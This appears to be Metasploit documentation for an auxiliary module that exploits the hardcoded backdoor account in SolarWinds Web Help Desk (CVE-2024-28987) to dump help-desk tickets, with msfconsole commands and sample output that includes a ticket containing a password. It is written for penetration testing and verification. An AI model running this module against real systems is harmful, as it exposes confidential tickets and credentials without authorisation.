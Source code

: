 ## Vulnerable Application

This module exploits a backdoor in SolarWinds Web Help Desk <= v12.8.3 (CVE-2024-28987) to retrieve all tickets from the system.

## Testing

The software can be obtained from
[the vendor](https://downloads.solarwinds.com/solarwinds/Release/WebHelpDesk/12.8.1/WebHelpDesk-12.8.1-x64_eval.exe).

Installation instructions are available [here]
(https://documentation.solarwinds.com/en/success_center/whd/content/whd_installation_guide.htm).

**Successfully tested on**

- SolarWinds Web Help Desk v12.8.1 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf6 > use auxiliary/gather/solarwinds_webhelpdesk_backdoor 
msf6 auxiliary(gather/solarwinds_webhelpdesk_backdoor) > set RHOSTS <IP>
msf6 auxiliary(gather/solarwinds_webhelpdesk_backdoor) > run
```

This should return all the tickets from the Web Help Desk platform.

## Options

### TICKET_COUNT
The number of tickets to dump to the terminal.

## Scenarios

Running the exploit against Web Help Desk v12.8.1 on Windows 22H2 should result in an output similar to the following:

```
msf6 auxiliary(gather/solarwinds_webhelpdesk_backdoor) > run
[*] Running module against 192.168.217.145

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Authenticating with the backdoor account "helpdeskIntegrationUser"...
[+] Successfully authenticated and tickets retrieved. Displaying the first 2 tickets retrieved:
[+] [
  {
    "id": 2,
    "type": "Ticket",
    "lastUpdated": "2024-09-25T08:54:13Z",
    "shortSubject": "Password reset",
    "shortDetail": "Hi,\r\n\r\nhere is your super secure password: foo\r\n\r\nYour IT Support",
    "displayClient": "No Client",
    "updateFlagType": 2,
    "prettyLastUpdated": "13 hours ago",
    "latestNote": null
  },
  {
    "id": 1,
    "type": "Ticket",
    "lastUpdated": "2024-09-25T05:15:17Z",
    "shortSubject": "Welcome to Web Help Desk",
    "shortDetail": "Congratulations! You have successfully installed Web Help Desk. Further configuration options are...",
    "displayClient": "Demo Client",
    "updateFlagType": 2,
    "prettyLastUpdated": "17 hours ago",
    "latestNote": null
  }
]
[+] Saved 2 tickets to /home/asdf/.msf4/loot/20240926004744_default_unknown_solarwinds_webhe_825328.txt
[*] Auxiliary module execution completed
```
